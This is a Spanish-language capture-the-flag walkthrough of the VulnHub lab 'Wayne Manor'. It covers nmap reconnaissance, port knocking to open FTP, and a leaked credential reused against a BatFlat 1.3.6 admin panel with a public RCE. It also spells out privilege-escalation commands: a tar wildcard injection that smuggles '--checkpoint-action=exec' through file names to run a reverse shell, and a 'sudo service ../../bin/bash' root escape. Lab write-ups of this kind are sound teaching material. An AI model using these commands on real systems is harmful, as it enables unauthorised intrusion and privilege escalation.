 # Wayne Manor 1

Tags: [[_infoLeakage]],[[_cms]],[[_webExploitation]],[[_analysis]],[[_timeTasks]],[[_scripting]],[[_sudoersAbusing]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu (Focal || Hirsute).

Puertos abiertos.
<span style="color:#ff669c">22</span>.Versión 8.2

<span style="color:#ff669c">80</span>.nginx/1.18.0

## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">22</span>.
De momento no poseo credenciales válidas.

<span style="color:#ff669c">80</span>.
Whatweb no reporta mucho.
El título de Bienvenido a Nginx es hecho de forma manual.
Hay dos links, uno nos lleva a una web de Nginx, la otra también pero es HTTP lo cual es raro, la original es HTTPS.

<span style="color:#88c425">nmap --script=http-enum 192.168.0.13 -p80</span> :    solo muestra el robots.txt
El cual solo muestra un dibujo de murciélago.

NOTA. Nos dicen el el propio vulnhub, que hay que añadir "waynemanor.com" en el /etc/hosts, parece que no figura en un diccionario.

Whatweb me reporta más cosas para ese dominio, parece se un BatFlat.
Fuzzear con nmap me muestra mucho, hay panel de autenticación en /admin.
/uploads/ no me carga nada.

FUZZEAR potente ambas webs. Pero antes.

Hay que analizar la web.
Hay usuarios potenciales.
bruce wayne
alfred

manor
door
knock
party
batman

Hay un apartado de mandar mensaje.

Hay un apartado que dice "Finish The Party" con las iniciales marcadas, dando a entender "FTP". Pero no está abierto.
También habla de que si entran muchas personas, se abre una puerta secreta.
<span style="color:#ecacb6">300, 350, 400 people</span>

Así que todo eso junto, me haría pensar en [[Port Knocking]].
Solo vemos 2 puertos abiertos, pues con knock podemos configurar Port Knocking para que al golpear ciertos puertos se abra de forma temporal un puerto para mi, para verlo.
<span style="color:#bef202">Procedimiento.</span>

<span style="color:#88c425">knock 192.168.0.13 300 350 400</span> :    para golpear esos puertos.

Y luego escanear de nuevo con NMAP.
<span style="color:#88c425">nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.13</span>

Ya podemos checar si podemos conectarnos de forma anónima al FTP.
<span style="color:#88c425">nmap --script=ftp-anon -p21 192.168.0.13</span> :    para no entrar de forma manual, ver si hay archivos para luego hacerle un get.

En este caso hay un info.txt
Con una credencial
bruce:alfred_help_me
Las cuales son válidas para el panel de autenticación que habíamos visto.

Enumerar BatFlat.
Version 1.3.6
Hay un campo de subida de archivos.
Podemos cambiar su contraseña.
Podemos descargar su foto de perfil.
Podemos agregar un usuario.

Son cosas normalitas.
Arriba en la URL hay un parámetro que tiene un valor pero como tal no hace mucho.

Busquemos vulnerabilidades en searchsploit.
Hay uno de RCE (Authenticated) para la versión 1.3.6 que es en la que estamos.

Lo ejecutamos con el nombre del dominio y los parámetros necesarios y pa deeentro.


## Escalada

Analizar todo.
Ubuntu Focal.

No vemos mucho, creamos un procmon.sh
<span style="color:#ecacb6">batman</span> usa tar para comprimir unos archivos de un directorio, pero los engloba todos.

Con tar yo me puedo spawnear una shell:
<span style="color:#88c425">tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh</span> 

El script que ejecuta batman tiene el comando
<span style="color:#88c425">tar -zcf /tmp/web.tar.gz *</span>
Que vendría siendo
<span style="color:#88c425">tar -zcf /tmp/web.tar.gz batflat index.nginx-debian.html robots.txt</span>

Pues yo puedo crear otro dos archivos con nombres de los parámetros de tar
<span style="color:#88c425">tar -zcf /tmp/web.tar.gz batflat index.nginx-debian.html robots.txt --checkpoint=1 --checkpoint-action=exec=/bin/sh</span> 

Crear archivos:
<span style="color:#88c425">touch -- --checkpoint=1</span>
<span style="color:#88c425">touch -- --checkpoint-action=exec='sh reverse'</span>

Podemos hacer que nos haga 
<span style="color:#88c425">exec='sh reverse'</span>
Me creo el script <span style="color:#ecacb6">reverse</span> ahí mismo, una reverse shell.
Y pa deeentro.

Toca escalar a root.
<span style="color:#88c425">sudo -l </span>
Puedo ejecutar como root sin proporcionar contraseña, el comando service.
Pero si hago <span style="color:#88c425">sudo service ../../bin/bash</span>
Me pongo como root.

FIN.
